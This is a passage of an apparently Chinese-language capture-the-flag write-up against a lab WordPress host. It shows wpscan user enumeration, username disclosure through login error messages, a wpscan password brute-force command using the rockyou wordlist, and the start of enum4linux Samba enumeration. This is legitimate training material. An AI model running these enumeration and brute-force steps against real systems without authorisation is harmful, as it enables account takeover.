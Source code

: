 [+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:01:08 <==========================================================================================================================================================> (1000 / 1000) 100.00% Time: 00:01:08

[i] User(s) Identified:

[+] bjoel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.122.108/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] kwheel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.122.108/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Aggressive Detection)

```

在登录框验证，正确的用户名会返回：
```ERROR: The password you entered for the username bjoel is incorrect```
错误的用户名会返回：
```ERROR: Invalid username```

经验证，```bjoel```和```kwheel```是真实存在的用户名。

# 尝试爆破bjoel的wp账号,好像爆不出来

wpscan --url http://10.10.122.108 --usernames bjoel --passwords /usr/share/wordlists/rockyou.txt 


# 尝试渗透445端口samba服务
```
enum4linux 10.10.122.108                                                                                                                                                                                                           255 ⨯
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri Sep 17 06:31:36 2021
